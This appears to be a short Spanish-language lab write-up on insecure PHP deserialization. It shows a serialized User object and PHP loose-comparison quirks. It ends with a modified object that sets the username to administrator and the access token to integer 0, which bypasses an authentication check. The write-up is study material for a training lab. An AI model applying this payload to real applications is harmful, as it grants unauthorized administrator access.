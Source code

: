 ```yaml
---
layout: default
title: 2 - Modifying serialized data types
---
```

2 propiedades, username y access token

```php
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"mxjbh44njh5ym71pdvh8rxq3cn0v3pex";}
```

```php
var_dump(0 == "0");       // true (int 0 se convierte en string "0")
var_dump(0 == "0.0");     // true (ambos se convierten en float 0.0)
var_dump(0 == "");        // true (string vacío se convierte en 0)
var_dump("123" == 123);   // true (string "123" se convierte en int 123)
var_dump(false == "0");   // true (string "0" se convierte en int 0, y false == 0)
```

```php
0 == "password"
```

Cambiamos el objeto PHP :

```php
O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}
```

